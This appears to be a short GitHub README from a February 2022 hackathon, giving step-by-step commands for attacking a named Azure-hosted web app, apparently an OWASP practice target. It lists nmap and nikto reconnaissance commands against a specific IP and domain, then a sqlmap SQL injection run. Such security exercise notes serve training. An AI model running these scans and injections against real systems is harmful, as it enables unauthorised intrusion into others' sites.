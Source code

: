 # WebSiteAttack-byAndreMurrel-
Web site attack created by Andre Murrel for FTA hackaton Februare 2022

This is instructions on how to execute a website attack. It was created by Andre Murrel for a hackaton played by Rudnei, Andre, Simona, Ricardo, Andrej and Andrew.

## Information utilized

- Web app: https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
- App GW: 52.249.241.69

## Enumeration and Discovery

Nmap -v -O -Pn 52.249.241.69 --traceroute 
#silent scan of IP and 1000 ports if ICMP is blocked 

nikto -h 52.249.241.69 
//nikto -h https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
//nikto -h https://owaspdirecprunoavl6xr2y.azurewebsites.net –ssl

## ATTACK Attempt at SQL Injection (this throws the kitchen sink at the Website) 

sqlmap -u "https://owaspdirect-prunoavl6xr2y.azurewebsites.net" --data="id=1&str=val" -b 


